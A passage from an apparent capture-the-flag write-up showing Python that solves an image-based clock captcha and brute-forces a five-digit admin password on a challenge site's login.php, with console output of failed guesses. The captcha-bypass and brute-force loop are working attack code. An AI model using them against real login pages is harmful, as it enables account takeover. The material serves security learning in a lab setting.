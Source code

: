 Now we have both minute and hour ! In the code, the function does it all:
```python
def get_time(captcha, label_set):
    clean, pix = clean_captcha(captcha)
    minute = get_minute(captcha, clean, pix)
    hour = get_hour(captcha, clean, pix, label_set[minute])
    if hour != -1 and minute == 0:
        hour += 1
    return hour, minute
```

Now the captcha itself is solved.

# Bruteforce the password
We need to piece together following:
- Solve the captcha: done with the steps above
- Get the keypad (the password digits are encoded with randomized key positions)
- Build a POST request to `login.php` with `base64` encoded parameters: username `admin`, attempted password and solved captcha.

```python
def bruteforce():
    guess = 0
    while guess < pow(10, 5):
        s = requests.session()
        captcha = solve_captcha(s, guess)
        if captcha != None:
            #proxy = { 'http': 'http://localhost:8080' }
            data = { 'username': b64encode('admin'.encode()).decode(),
                     'password': b64encode(str(guess).zfill(5).encode()).decode(),
                     'captcha': captcha }
            r = s.post("http://passichronophage.chall.malicecyber.com/login.php", data=data)
            if r.status_code == 200:
                if 'Bad username/password' in r.text:
                    print('bad pass')
                    guess += 1
                elif 'Wrong captcha' in r.text:
                    print('wrong captcha')
                else:
                    print('pass')
                    print(r.text)
                    break
            else:
                print(guess, 'error', r.status_code)
                print(r.text)
```

Run the bruteforce and hope for the best ! It's taking its sweet, but after some time, it eventualy got a hit!
```console
$ python3 sol.py
(...)
44174 11:06 bad pass
44175 05:48 bad pass
44176 04:41 bad pass
44177 10:36 bad pass
44178 07:42 bad pass
44179 11:29 bad pass
44180 01:29 bad pass
44181 11:38 bad pass
44182 04:25 bad pass
44183 08:47 bad pass
44184 05:48 bad pass
44185 03:32 bad pass
44186 10:59 bad pass
```